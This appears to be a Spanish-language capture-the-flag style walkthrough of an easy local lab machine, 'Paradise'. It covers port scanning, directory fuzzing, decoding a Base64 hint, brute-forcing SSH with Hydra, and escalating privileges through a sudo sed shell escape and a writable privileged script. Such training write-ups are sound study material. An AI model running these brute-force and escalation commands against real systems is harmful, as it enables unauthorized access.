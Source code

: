 # Informe de Pentesting - Máquina Paradise

* **Nombre de la máquina:** Paradise
* **Nivel de dificultad:** Fácil
* **Propósito:** Práctica de técnicas básicas de reconocimiento, enumeración, decodificación, ataque por fuerza bruta y escalada de privilegios en un entorno controlado.
![Logo](/Logo.png)
---

## 1. Despliegue de la Máquina

Descargamos el archivo comprimido `paradise.zip` y lo descomprimimos con:

```bash
unzip paradise.zip
```

Posteriormente, se despliega la máquina con el siguiente script:

```bash
sudo bash auto_deploy.sh paradise.tar
```

![Despliegue](/Imagenes/Despliegue.jpeg)

Confirmamos que la máquina está activa con un `ping` a la dirección IP:

```bash
ping -c 4 172.17.0.2
```

![Ping](/Imagenes/Ping.jpeg)

---

## 2. Reconocimiento de Puertos

Realizamos un escaneo completo de puertos para identificar cuáles están abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Puertos abiertos](/Imagenes/Puerto.jpeg)

Usamos nuestro script personalizado `extractPorts` para extraer los puertos relevantes y luego analizamos los servicios corriendo en ellos:

```bash
nmap -sC -sV -p 22,80,139,445 172.17.0.2 -oN target.txt
```

![Servicios detectados](/Imagenes/Servicios.jpeg)

---

## 3. Enumeración Web

Al acceder al navegador, encontramos una página web que sirve como punto de entrada:

![Página principal](/Imagenes/Pagina.jpeg)

Realizamos *fuzzing* con **Gobuster** para encontrar directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Gobuster](/Imagenes/Gobuster.jpeg)

Estos fueron los directorios y archivos detectados:

* `/index.html`
  ![index.html](/Imagenes/indexhtml.jpeg)

* `/img`
  ![img](/Imagenes/img.jpeg)

* `/login.php`
  ![login.php](/Imagenes/loginphp.jpeg)

* `/galery.html`
  ![galery.html](/Imagenes/galeryhtml.jpeg)

* `/booking.html`
  ![booking.html](/Imagenes/booking.jpeg)

---

## 4. Análisis del Código Fuente

Al revisar el código fuente de la página, encontramos un mensaje en Base64:

```text
ZXN0b2VzdW5zZWNyZXRvCg==
```

![Base64 encontrado](/Imagenes/base64.jpeg)

Lo decodificamos en Bash:

```bash
echo "ZXN0b2VzdW5zZWNyZXRvCg==" | base64 --decode
```

El resultado fue:

```text
estoesunsecreto
```

![Decodificación](/Imagenes/descodificar.jpeg)

Probamos si esta cadena correspondía a una ruta y descubrimos un nuevo directorio oculto:

```text
http://172.17.0.2/estoesunsecreto/
```

![Directorio secreto](/Imagenes/estoesunsecreto.jpeg)

Dentro había un archivo `.txt` con un mensaje que indicaba que se debía cambiar la contraseña por ser débil. También se menciona el nombre del usuario **lucas**, lo que sugiere que podría ser un usuario válido en el sistema.

![Usuario lucas](/Imagenes/lucas.jpeg)

---

## 5. Fuerza Bruta con Hydra

Probamos con fuerza bruta utilizando **Hydra** para intentar acceder vía SSH como el usuario *lucas*.

```bash
hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Encontramos la contraseña:

```text
lucas : chocolate
```

![Hydra resultado](/Imagenes/hydra.jpeg)

---

## 6. Escalada de Privilegios a Usuario Andy

Una vez dentro como lucas vía SSH:

```bash
ssh lucas@172.17.0.2
```

![SSH acceso](/Imagenes/ssh.jpeg)

Descubrimos que lucas puede ejecutar el comando `/bin/sed` como el usuario andy sin necesidad de contraseña (NOPASSWD):

```bash
sudo -l
```

Aprovechamos esto para escalar privilegios a andy:

```bash
sudo -u andy /bin/sed -n '1e exec /bin/bash' /etc/hosts
```

![Escalada a andy](/Imagenes/escala.jpeg)

---

## 7. Escalada de Privilegios a Root

Buscamos archivos que sean modificables por andy y que puedan ser ejecutados con privilegios de root:

```bash
find / -writable -user andy 2>/dev/null
```

Encontramos el script: `/usr/local/bin/privileged_exec`

Lo editamos y luego lo ejecutamos, lo que nos otorgó acceso como root.

![Escalada final](/Imagenes/escala2.jpeg)

---

## 8. Conclusión

Esta máquina nos permitió practicar técnicas esenciales como:

* Escaneo y enumeración de servicios.
* Fuzzing de directorios.
* Decodificación de información oculta.
* Ataques por fuerza bruta.
* Escalada de privilegios con uso de binarios vulnerables y análisis de permisos.
